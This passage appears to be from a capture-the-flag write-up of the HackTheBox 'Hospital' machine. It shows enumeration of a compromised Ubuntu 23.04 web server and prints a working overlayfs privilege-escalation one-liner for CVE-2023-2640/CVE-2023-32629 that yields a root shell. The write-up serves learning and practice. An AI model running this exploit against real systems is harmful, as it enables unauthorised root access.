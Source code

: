 
There was also another user present:

```
www-data@webserver:/home$ ls -la
total 12
drwxr-xr-x  3 root       root       4096 Oct 29 02:02 .
drwxr-xr-x 19 root       root       4096 Sep 12 17:23 ..
drwxr-x---  5 drwilliams drwilliams 4096 Oct 29 01:42 drwilliams
```

Since this was an AD machine, this user might be present on the DC. When checking `uname -a`, I found that this machine was running an Ubuntu instance vulnerable to CVE-2023-2640 & CVE-2023-32629:

```
www-data@webserver:/home$ uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux

www-data@webserver:/home$ cat /etc/lsb-release 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=23.04
DISTRIB_CODENAME=lunar
DISTRIB_DESCRIPTION="Ubuntu 23.04"
```
This PoC was similar to another machine on HTB, and to become `root`, just run these two commands in a writeable directory:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"
```

![](../../.gitbook/assets/htb-hospital-image-9.png)

Replace `id` with `/bin/bash -i` to get a `root` shell:

![](../../.gitbook/assets/htb-hospital-image-10.png)
